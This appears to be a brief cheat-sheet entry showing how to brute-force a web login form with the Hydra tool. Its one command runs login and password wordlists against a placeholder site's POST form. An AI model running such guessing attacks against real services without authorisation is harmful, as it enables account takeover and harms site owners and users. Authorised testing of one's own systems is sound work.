 # Brute force attacks with Hydra

```console
hydra website.com http-post-form "/:login=^USER^&password=^PASS^:F=Wrong" -L logins.txt -P dict.txt
```
